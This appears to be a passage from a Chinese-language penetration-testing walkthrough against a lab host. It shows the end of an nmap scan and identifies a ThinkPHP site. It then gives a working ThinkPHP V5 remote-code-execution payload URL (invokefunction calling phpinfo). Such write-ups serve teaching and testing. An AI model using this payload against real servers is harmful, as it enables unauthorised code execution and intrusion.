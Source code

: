```plain
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.02 seconds
```

目标为 Linux 系统，开放 21、22、80、8888 等端口。查看 80 端口的 web 服务：

[![](assets/1705981930-787689e898506ee04088333fa778817a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143214-d0bfc0f8-b826-1.png)

### 2.2 漏洞利用

目标端口使用 ThinkPHP 框架，查看 V5 过去爆出来的漏洞

使用远程命令执行漏洞的 payload 进行测试：

```plain
http://192.168.179.161/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

